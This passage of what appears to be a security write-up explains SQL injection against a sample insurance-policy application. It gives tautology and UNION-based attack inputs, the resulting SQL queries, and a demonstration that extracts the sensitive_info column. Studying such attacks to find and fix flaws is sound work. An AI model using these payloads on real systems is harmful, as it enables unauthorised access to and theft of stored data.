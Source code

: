 3. **Database Manipulation:**
   Beyond data retrieval, attackers can perform operations like inserting, updating, or deleting data.

### **b. Example Exploits**

1. **Retrieving Sensitive Information:**
   To extract the `sensitive_info` field, an attacker can manipulate the `query` parameter to include a SQL command that selects this column.

   **Attack Input:**
   ```
   ' OR 1=1; --
   ```

   **Resulting SQL Query:**
   ```sql
   SELECT name, policy_number FROM policies WHERE name = '' OR 1=1; --'
   ```

   - **Explanation:** The condition `OR 1=1` always evaluates to `TRUE`, causing the query to return all records. The `--` sequence comments out the remainder of the SQL statement, preventing syntax errors.

2. **Union-Based SQL Injection:**
   An attacker can use a `UNION` statement to combine the results of the original query with another query that retrieves additional data.

   **Attack Input:**
   ```
   ' UNION SELECT name, sensitive_info FROM policies; --
   ```

   **Resulting SQL Query:**
   ```sql
   SELECT name, policy_number FROM policies WHERE name = '' UNION SELECT name, sensitive_info FROM policies; --'
   ```

   - **Explanation:** This injects a `UNION` operation that appends the `sensitive_info` column to the result set, potentially exposing sensitive data.

3. **Data Exfiltration:**
   By crafting specific payloads, attackers can extract data from other tables or even execute administrative operations if the database user has sufficient privileges.

---

## **3. Demonstration of the Exploit**

Assume an attacker wants to retrieve the `sensitive_info` for all policyholders. By submitting the malicious input `' UNION SELECT name, sensitive_info FROM policies; --`, the application will execute the following SQL query:

```sql
SELECT name, policy_number FROM policies WHERE name = '' UNION SELECT name, sensitive_info FROM policies; --'
```
